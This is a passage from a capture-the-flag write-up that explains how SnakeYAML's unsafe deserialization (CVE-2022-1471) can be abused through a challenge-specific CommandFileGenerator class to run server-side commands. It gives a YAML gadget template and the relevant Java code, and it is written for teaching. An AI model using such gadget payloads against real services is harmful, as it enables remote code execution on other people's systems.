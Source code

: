 The most critical one is the CVE-2022-1471 with a CVSS of 9.8. So we might use it to find the flag.



> 2.2. Exploit the vulnerability. 



#### Vulnerability

SnakeYAML doesn't restrict object types after deserialization. Any class in the Java classpath can be instantiated during deserialization.

Gadget Chain refers to chaining multiple classes or functions to execute arbitrary code. In SnakeYAML's case, the vulnerability is because the `Constructor` method does not limit which classes can be instantiated, making it vulnerable to attacks with `gadgets`. For example, using `javax.script.ScriptEngineManager` and `java.net.URLClassLoader`, an attacker can execute arbitrary code after SnakeYAML deserializes certain data. 

In our case, the above mentioned classes are not available in the code, but luckily, we can use the `CommandFileGenerator` class to our advantage to exploit the vulnerability. This class can be used to execute a command on the server side. Now we must understand what kind of commands we can execute.

Firstly, the class takes 2 string parameters, so the gadget will look like:

```
!!heig.slh_24_ctf.CommandFileGenerator [ !!java.lang.String [ <param1> ], !!java.lang.String [ <param2> ] ]
```

By looking a the code, we can see that `<param1>` is the endpoint to browse to see the command output and `<param2>` is the command to be executed on the server with its argument :

```java
public CommandFileGenerator(String fileName, String command) {
	this.command = command;
	this.fileName = fileName;
	try{
		verifyNameParameters(fileName);
		executeCommandAndGenerateFile();
		logger.info("{} command had been successfully executed and stored at 			/generated/{}", this.command, this.fileName);
		}
		catch (Exception e) {
			logger.warn("{} command failed to execute, or the result could not be stored", command);
		}
}
```

Apparently, the filename argument will be verified using a regex in the `verifyNameParameters` method:

```java
private static void verifyNameParameters(String name) throws IllegalArgumentException{
	Pattern pattern = Pattern.compile("^[A-Za-z]+$");
	if (!pattern.matcher(name).find() || name.length() < 8){
		logger.warn("{} command name is not valid", name);
		throw new IllegalArgumentException("The name of a command must be compose of a minimum of 8 letters");
	}
}
```


[^1]:  [source](https://www.immuniweb.com/vulnerability/ssrf.html)